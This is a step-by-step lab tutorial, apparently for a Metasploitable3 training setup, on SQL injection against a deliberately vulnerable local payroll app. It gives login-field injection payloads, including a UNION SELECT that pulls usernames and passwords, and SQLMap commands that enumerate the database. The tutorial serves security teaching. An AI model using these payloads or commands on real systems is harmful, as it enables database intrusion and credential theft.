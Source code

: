 For this tutorial you will need the following tools<b/>

* Browser (Prefarably Mozilla)
* Burpsuite
* SQLMap

1. Try and login using the following credentials:<b/>

   | Field     | Value    |
   | --------- |:--------:|
   | USERNAME  | admin    |
   | PASSWORD  | admin    |  

RESULTS: The webpage will display your username and no content
 
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/step-1.png "STEP 1")
   
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/result-1.png "Result 1")
2. <b>Try and login using the following credentials:</b>

   | Field     | Value    |
   | --------- |:--------:|
   | USERNAME  | '        |
   | PASSWORD  | admin    |  

RESULTS: The webpage will be blank
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/step-2.png "STEP 2")
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/result-2.png "RESULT 2")
   
3. <b>Try and login using the following credentials:</b>

   | Field     | Value    |
   | --------- |:--------:|
   | USERNAME  | ' or 1;#'|
   | PASSWORD  | admin    |  

RESULTS: The web page will return all the user content
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/step-3.png "STEP 2")
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/result-3.png "RESULT 2")
4. <b>Use SQLMap to extract the database using the following commands:</b>

   ```
   sqlmap -u http://127.0.0.1:7000/payroll_app.php --data="user=admin&password=admin&s=OK" -p user --method POST
   ```

RESULTS: SQLMap will identify whether the web application is vulnerable to SQL Injection
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/step-4-sqlmap.png "STEP 4")
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/result-4-1.png "RESULT 4")
   
5. <b>Use SQLMap to extract the columns in the table</b>

   ```
   sqlmap -u http://127.0.0.1:7000/payroll_app.php --data="user=admin&password=admin&s=OK" -p user --method POST --columns
   ```

RESULTS: SQLMap will retrieve the columns on the application tables
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/step-5-1.png "STEP 5")
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/step-5-2.png "RESULT 5")   

6. <b>Use the fields retrieved to retrieve the user passwords:</b>

   | Field     | Value                                       |
   | --------- |:-------------------------------------------:|
   | USERNAME  | ' or 1 union select 1,username,password,1;#'|
   | PASSWORD  | admin                                       |  

RESULTS: The web page will return the user credentials
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/step-6.png "STEP 5")
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/result-6-1.png "RESULT 6")
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/result-6-2.png "RESULT 6")  
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/result-6-3.png "RESULT 6")   

